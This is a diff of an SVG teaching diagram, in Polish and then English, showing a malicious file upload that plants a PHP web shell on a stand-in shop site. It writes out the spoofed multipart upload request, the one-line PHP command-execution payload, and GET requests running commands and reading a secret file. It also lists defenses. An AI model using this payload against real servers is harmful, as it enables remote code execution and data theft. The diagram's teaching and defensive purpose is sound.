

<svg xmlns="http://www.w3.org/2000/svg" width="1920" height="1080" viewBox="0 0 1920 1080">
  <defs>
    <linearGradient id="bg" x1="0" y1="0" x2="1" y2="1">
      <stop offset="0%" stop-color="#f5f9ff" />
      <stop offset="100%" stop-color="#fff8f5" />
    </linearGradient>
-     <filter id="soft" x="-20%" y="-20%" width="140%" height="140%">
-       <feGaussianBlur in="SourceGraphic" stdDeviation="0" />
-     </filter>
  </defs>
  <rect width="1920" height="1080" fill="url(#bg)" />
-   <ellipse cx="120" cy="100" rx="200" ry="120" fill="#ffd6e8" opacity="0.5" />
-   <ellipse cx="1800" cy="120" rx="180" ry="110" fill="#c8e6ff" opacity="0.5" />
-   <ellipse cx="1700" cy="950" rx="220" ry="100" fill="#fff3b0" opacity="0.45" />
-   <ellipse cx="150" cy="920" rx="160" ry="90" fill="#d4f5e9" opacity="0.4" />
-   <text x="960" y="88" text-anchor="middle" font-family="Segoe UI,system-ui,sans-serif" font-size="44" font-weight="700" fill="#1e3a5f">Skrajnie technicznie — image.php (tylko atakujący)</text>
-   <text x="960" y="128" text-anchor="middle" font-size="22" fill="#555">Bez ofiary, bez proxy: sam upload + celowo sfałszowane nagłówki</text>
-   <g transform="translate(100,200)">
-     <circle cx="60" cy="40" r="36" fill="#2d3436" />
-     <rect x="25" y="78" width="70" height="90" rx="14" fill="#4a69bd" />
-     <text x="60" y="200" text-anchor="middle" font-size="18" fill="#333">Atakujący</text>
+   <ellipse cx="100" cy="90" rx="200" ry="110" fill="#ffd6e8" opacity="0.45" />
+   <ellipse cx="1820" cy="100" rx="170" ry="100" fill="#c8e6ff" opacity="0.45" />
+   <ellipse cx="1750" cy="980" rx="200" ry="95" fill="#fff3b0" opacity="0.4" />
+   <ellipse cx="140" cy="960" rx="150" ry="80" fill="#d4f5e9" opacity="0.35" />
+   <text x="960" y="62" text-anchor="middle" font-family="Segoe UI,system-ui,sans-serif" font-size="38" font-weight="700" fill="#1e3a5f">Attack: Malicious file upload → PHP web shell (CWE-434)</text>
+   <text x="960" y="98" text-anchor="middle" font-size="20" fill="#555">Attacker only — no MITM. Weak backend trusts multipart headers, stores file, PHP handler executes it.</text>
+   <text x="80" y="140" font-size="22" font-weight="700" fill="#1e3a5f">Step 1 — HTTP POST (multipart upload)</text>
+   <rect x="80" y="155" width="1080" height="430" rx="12" fill="#1a1a2e" stroke="#e94560" stroke-width="2" />
+   <text x="100" y="192" fill="#a8e6cf" font-family="ui-monospace,Consolas,monospace" font-size="17">POST /avatar/upload HTTP/1.1</text>
+   <text x="100" y="220" fill="#a8e6cf" font-family="ui-monospace,monospace" font-size="17">Host: vulnerable-shop.example</text>
+   <text x="100" y="248" fill="#ffd93d" font-family="ui-monospace,monospace" font-size="17">Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxk</text>
+   <text x="700" y="248" fill="#ff6b8a" font-size="14">← request-level (correct for uploads)</text>
+   <text x="100" y="285" fill="#888" font-family="ui-monospace,monospace" font-size="15">------WebKitFormBoundary7MA4YWxk</text>
+   <text x="100" y="312" fill="#fff" font-family="ui-monospace,Consolas,monospace" font-size="16">Content-Disposition: form-data; name="avatar"; filename="image.php"</text>
+   <text x="100" y="340" fill="#ffd93d" font-family="ui-monospace,monospace" font-size="16">Content-Type: image/jpeg</text>
+   <text x="520" y="340" fill="#ff6b8a" font-size="14">← part MIME spoofed (file is PHP, not JPEG)</text>
+   <text x="100" y="368" fill="#888" font-family="ui-monospace,monospace" font-size="15">(blank line — start of part body)</text>
+   <text x="100" y="398" fill="#dfe6e9" font-family="ui-monospace,monospace" font-size="16">GIF89a;</text>
+   <text x="180" y="398" fill="#888" font-size="13">optional fake magic bytes</text>
+   <text x="100" y="428" fill="#ff9f43" font-family="ui-monospace,Consolas,monospace" font-size="16">&lt;?php system($_GET['cmd']); ?&gt;</text>
+   <text x="100" y="458" fill="#888" font-family="ui-monospace,monospace" font-size="15">------WebKitFormBoundary7MA4YWxk--</text>
+   <rect x="100" y="480" width="1040" height="88" rx="8" fill="#2d3436" />
+   <text x="120" y="510" fill="#dfe6e9" font-size="15">Why two Content-Types? Outer = multipart wrapper (correct). Inner = per-file part — backend wrongly trusts this instead of extension + bytes.</text>
+   <text x="120" y="538" fill="#dfe6e9" font-size="15">Saved path (typical weak code): public directory + original filename from Content-Disposition →</text>
+   <text x="120" y="562" fill="#7bed9f" font-family="ui-monospace,monospace" font-size="16">/var/www/html/uploads/image.php</text>
+   <g transform="translate(1220,180)">
+     <circle cx="50" cy="35" r="32" fill="#2d3436" />
+     <rect x="20" y="68" width="60" height="75" rx="12" fill="#4a69bd" />
+     <text x="50" y="165" text-anchor="middle" font-size="16" fill="#333">Attacker</text>
  </g>
-   <rect x="280" y="170" width="720" height="520" rx="16" fill="#1a1a2e" stroke="#e94560" stroke-width="3" />
-   <text x="310" y="215" fill="#ff6b8a" font-family="ui-monospace,monospace" font-size="20" font-weight="700">POST /upload HTTP/1.1</text>
-   <text x="310" y="250" fill="#a8e6cf" font-family="ui-monospace,monospace" font-size="17">Content-Type: multipart/form-data; boundary=----x</text>
-   <text x="310" y="290" fill="#888" font-family="ui-monospace,monospace" font-size="15">------x</text>
-   <text x="310" y="320" fill="#ffd93d" font-family="ui-monospace,monospace" font-size="16">Content-Disposition: form-data; name="file"; filename="image.php"</text>
-   <text x="310" y="355" fill="#ffd93d" font-family="ui-monospace,monospace" font-size="16">Content-Type: image/jpeg</text>
-   <text x="730" y="355" fill="#ff6b8a" font-size="14">← celowo sfałszowane</text>
-   <text x="310" y="390" fill="#888" font-family="ui-monospace,monospace" font-size="15">(pusta linia)</text>
-   <text x="310" y="425" fill="#fff" font-family="ui-monospace,monospace" font-size="17">GIF89a;</text>
-   <text x="400" y="425" fill="#888" font-size="14">opcjonalnie</text>
-   <text x="310" y="465" fill="#ff9f43" font-family="ui-monospace,monospace" font-size="17">&lt;?php system($_GET['cmd']); ?&gt;</text>
-   <text x="310" y="505" fill="#888" font-family="ui-monospace,monospace" font-size="15">------x--</text>
-   <rect x="310" y="540" width="660" height="120" rx="10" fill="#2d3436" />
-   <text x="330" y="575" fill="#dfe6e9" font-size="16">Backend „głupi”: wierzy w Content-Type i/lub nie ma allow-listy — zapisuje uploads/image.php</text>
-   <text x="330" y="610" fill="#dfe6e9" font-size="16">Nie sprawdza: rozszerzenia .php, magic bytes, brak wykonania w katalogu</text>
-   <rect x="1060" y="200" width="760" height="140" rx="14" fill="#fff3cd" stroke="#e0a800" stroke-width="2" />
-   <text x="1080" y="245" font-size="24" font-weight="700" fill="#1e3a5f">① Zapis</text>
-   <text x="1080" y="285" font-family="ui-monospace,monospace" font-size="19" fill="#333">/var/www/public/uploads/image.php</text>
-   <text x="1080" y="318" font-size="17" fill="#555">Treść = bajty z body (nagłówek GIF + PHP)</text>
-   <path d="M 1440 350 L 1440 400" stroke="#1e3a5f" stroke-width="3" marker-end="url(#a)" />
-   <defs>
-     <marker id="a" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
-       <polygon points="0 0, 10 3.5, 0 7" fill="#1e3a5f" />
-     </marker>
-   </defs>
-   <rect x="1060" y="410" width="760" height="160" rx="14" fill="#d4edda" stroke="#28a745" stroke-width="2" />
-   <text x="1080" y="455" font-size="24" font-weight="700" fill="#1e3a5f">② Wywołanie</text>
-   <text x="1080" y="495" font-family="ui-monospace,monospace" font-size="19" fill="#333">GET /uploads/image.php?cmd=cat%20secret HTTP/1.1</text>
-   <text x="1080" y="535" font-size="17" fill="#333">Apache mod_php → wykonanie kodu (RCE / web shell)</text>
-   <rect x="1060" y="600" width="760" height="90" rx="14" fill="#f8d7da" stroke="#c0392b" stroke-width="2" />
-   <text x="1080" y="655" font-size="20" fill="#c0392b" font-weight="600">Skutek: odczyt plików, baza, backdoor — pełna kontrola procesu WWW</text>
-   <rect x="80" y="860" width="1760" height="88" rx="14" fill="#ffc107" />
-   <text x="960" y="910" text-anchor="middle" font-size="22" font-weight="700" fill="#1e3a5f">Lekcja: allow-lista rozszerzeń + magic bytes + brak PHP w uploads + losowa nazwa</text>
-   <g transform="translate(1680,720)">
-     <rect x="0" y="0" width="90" height="120" rx="8" fill="#2d3436" />
-     <circle cx="25" cy="25" r="6" fill="#00ff00" />
-     <circle cx="45" cy="25" r="6" fill="#00ff00" />
-     <text x="45" y="-15" text-anchor="middle" font-size="14" fill="#333">Serwer</text>
-   </g>
+   <text x="80" y="620" font-size="22" font-weight="700" fill="#1e3a5f">Step 2 — HTTP GET (trigger execution)</text>
+   <rect x="80" y="635" width="920" height="165" rx="12" fill="#1a1a2e" stroke="#28a745" stroke-width="2" />
+   <text x="100" y="675" fill="#a8e6cf" font-family="ui-monospace,Consolas,monospace" font-size="17">GET /uploads/image.php?cmd=whoami HTTP/1.1</text>
+   <text x="100" y="703" fill="#a8e6cf" font-family="ui-monospace,Consolas,monospace" font-size="17">Host: vulnerable-shop.example</text>
+   <text x="100" y="740" fill="#dfe6e9" font-family="ui-monospace,monospace" font-size="16">Apache + mod_php runs image.php → system("whoami") → RCE as www-data</text>
+   <text x="100" y="775" fill="#ff9f43" font-family="ui-monospace,monospace" font-size="15">Example: GET /uploads/image.php?cmd=cat%20/home/app/secret</text>
+   <rect x="1040" y="635" width="800" height="165" rx="12" fill="#f8d7da" stroke="#c0392b" stroke-width="2" />
+   <text x="1060" y="675" font-size="20" font-weight="700" fill="#c0392b">Impact</text>
+   <text x="1060" y="708" font-size="17" fill="#333">Read secrets, dump DB, install backdoor, pivot.</text>
+   <text x="1060" y="738" font-size="16" fill="#555">Historical pattern: PHP shared hosting + avatar upload (PortSwigger RCE lab).</text>
+   <rect x="80" y="840" width="1760" height="72" rx="12" fill="#ffc107" />
+   <text x="960" y="885" text-anchor="middle" font-size="21" font-weight="700" fill="#1e3a5f">Defense: allow-list extensions, verify magic bytes, random server filename, no script execution in upload dir.</text>
</svg>
